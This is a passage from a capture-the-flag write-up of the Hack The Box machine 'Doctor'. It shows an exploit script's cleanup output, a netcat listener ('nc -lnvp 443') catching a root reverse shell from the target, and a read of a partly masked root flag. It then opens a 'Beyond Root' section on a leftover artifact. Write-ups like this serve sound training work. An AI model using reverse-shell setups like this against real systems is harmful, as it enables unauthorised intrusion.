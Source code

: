     Press RETURN to cleanup

    [.] Removing app...
    [+] App removed
    [+] Stopped HTTP server
    Bye!



At `nc` a root shell connected:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:40142.
    bash: cannot set terminal process group (1140): Inappropriate ioctl for device
    bash: no job control in this shell
    root@doctor:/# 



And I can grab `root.txt`:



    root@doctor:/root# cat root.txt
    fba452cc************************



## Beyond Root

### Leftover Artifact

I had an interesting experience while working on Doctor, and managed
(with a bit of help from Jkr) to work out what was going on.

#### Situation

If I create an account on the webpage after the first time the database
is reset, and then reset the box, once the box comes up, if I refresh
the homepage, I get this:

![](/img/image-20201108113043144.png)
